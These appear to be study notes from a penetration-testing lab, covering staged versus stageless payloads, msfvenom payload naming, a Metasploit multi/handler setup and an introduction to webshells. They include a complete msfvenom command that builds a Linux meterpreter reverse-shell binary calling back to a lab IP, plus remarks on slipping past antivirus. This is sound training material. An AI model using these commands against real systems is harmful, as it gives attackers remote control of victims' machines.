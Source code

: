 Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.


### naming payload

```
<OS>/<architecture>/<payload>

linux/x86/shell_reverse_tcp
windows/shell_reverse_tcp          win32 no arch required
windows/x64/meterpreter/reverse_tcp
linux/x86/meterpreter_reverse_tcp


msfvenom --list payloads
```


```
What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`

msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443
```


## metasploit 

Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

```
msfconsole
use multi/handler
options

set PAYLOAD <payload>
set LHOST <listen-address>
set LPORT <listen-port>


exploit -j for background
```


## webshells

There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a _webshell_.
